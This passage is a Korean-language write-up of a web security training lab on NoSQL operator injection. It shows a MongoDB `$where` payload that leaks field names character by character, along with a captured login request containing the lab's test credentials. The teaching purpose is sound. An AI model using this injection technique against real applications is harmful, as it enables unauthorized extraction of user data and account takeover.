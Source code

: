 만약 서버 응답에 차이가 있다면 `$where` 절에 삽입한 Javascript가 서버측에서 실행되었다(인젝션 가능하다)라고 추측할 수 있다. 

## 필드 이름 추출하기 💣

Operator인젝션으로 Javascript실행이 가능한 것을 알았다면, `keys()` 함수를 써서 데이터 필드의 이름을 알아내는 것이 가능하다. 예를 들면 다음 페이로드는 오브젝트가 가지고 있는 첫번째 데이터필드의 첫번째 문자를 리턴한다. 이 것을 반복하면 모든 필드 이름을 추출할 수 있다. 

```json
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

# 살펴보기 
## 패스워드 분실시 
패스워드를 잊어버렸을 때 사용하는 링크가 있다. 여기에 carlos를 입력하면 이메일로 보내진 링크를 확인하라고 화면에 표시된다.

```
Please check your email for a reset password link.
```

## 로그인

로그인할 때 다음 요청이 전송된다. 

```http
POST /login HTTP/2
Host: 0aa90065046ae42c80091cd600670089.web-security-academy.net
Cookie: session=wx24ljx4KeubegdkdZlXt2RuKnPsPgqK
Content-Length: 40
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0aa90065046ae42c80091cd600670089.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa90065046ae42c80091cd600670089.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":"wiener","password":"peter"}
```


# 풀이 
## 인젝션 가능한 곳 찾기 
### `$where` 오퍼레이터 테스트
이번 문제는 오퍼레이터 인젝션을 사용하는 문제이다. 일단 로그인 요청(POST /login)에서 다음 두 개 페이로드를 각각 사용했을 때 서버측 동작에 차이가 있는지 확인해보자.
